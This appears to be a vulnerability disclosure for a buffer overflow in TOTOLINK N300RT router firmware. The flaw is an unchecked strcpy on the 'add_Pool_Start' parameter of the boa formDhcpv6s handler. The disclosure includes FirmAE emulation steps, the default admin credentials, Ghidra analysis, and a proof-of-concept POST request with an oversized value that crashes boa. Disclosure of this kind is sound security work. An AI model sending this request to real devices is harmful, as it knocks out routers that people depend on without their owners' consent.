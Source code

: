 ## **Description**

A buffer overflow vulnerability was discovered in the TOTOLINK firmware N300RT-Ad-V4.0.0-B20211109.1137. The vulnerability arises from the improper input validation of the `'add_Pool_Start'` parameter in the 'formDhcpv6s' interface of the file boa.

## ​**Affected Product**

- ​**Brand**: TOTOLINK
- ​**Product**: N300RT
- ​**Version**: V4.0.0-B20211109.1137

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d totolink ../FIRMWARE/TOTOLINK-N300RT-Ad-V4.0.0-B20211109.1137.web
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `admin`

The result of the simulation is as follows: 
![sim_res](./img/sim_res.png)

## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'FUN_0044f0b8' is below:
![vulner_code.png](./img/vulner_code.png)
Because of the problem of ghidra decompilation, the code in `FUN_00402610()` should actually use the strcpy function to copy the parameters obtained by POST to an address.
![vulner_code_1.png](./img/vulner_code_1.png)
- ​**web_get_var** retrieves POST parameters.
- **strcpy()** is used without length checks, leading to a ​buffer overflow.​

## **Proof of Concept (PoC)**
### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /boafrm/formDhcpv6s HTTP/1.1  
Host: 192.168.0.1  
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 313  
Origin: http://192.168.0.1
Connection: close  
Referer: http://192.168.0.1/tcpipwan.htm
Upgrade-Insecure-Requests: 1  
  
enabledpchv6s=1&add_Pool_Start=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

After the request the `boa` process will crash.
![result](./img/result.png)